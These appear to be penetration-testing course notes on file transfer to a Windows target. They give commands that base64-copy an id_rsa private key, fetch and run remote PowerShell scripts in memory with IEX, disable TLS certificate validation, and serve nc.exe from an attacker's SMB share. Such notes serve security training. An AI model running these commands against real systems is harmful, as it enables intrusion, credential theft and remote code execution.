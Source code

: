 ### PowerShell Base64 Encode & Decode

**Use case:** Transfer small files without network traffic (copy/paste base64).

```bash
# On Linux (encode)
md5sum id_rsa
cat id_rsa | base64 -w 0; echo
```

```powershell
# On Windows (decode)
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("<b64string>"))
Get-FileHash C:\Users\Public\id_rsa -Algorithm MD5
```

> ⚠️ `cmd.exe` max string length = **8191 chars**. Web shells may error on very large strings.

---

### PowerShell Web Downloads

`System.Net.WebClient` methods and `Invoke-WebRequest` are widely used.

```powershell
# Download to disk
(New-Object Net.WebClient).DownloadFile('https://url/file.ps1','C:\path\file.ps1')

# Fileless execution (runs in memory)
IEX (New-Object Net.WebClient).DownloadString('https://url/script.ps1')

# Alternative
Invoke-WebRequest https://url/script.ps1 -OutFile script.ps1
```

**Common Issues**:
- IE first-launch parsing error: use `-UseBasicParsing`
- SSL/TLS cert trust errors: bypass with
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

Helpful aliases: `iwr`, `curl`, `wget` (PowerShell 6+ compatibility)

---

### SMB Downloads

Host with Impacket's `smbserver.py` on attacker (Pwnbox):
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

From Windows target:
```cmd
copy \\192.168.220.133\share\nc.exe
```
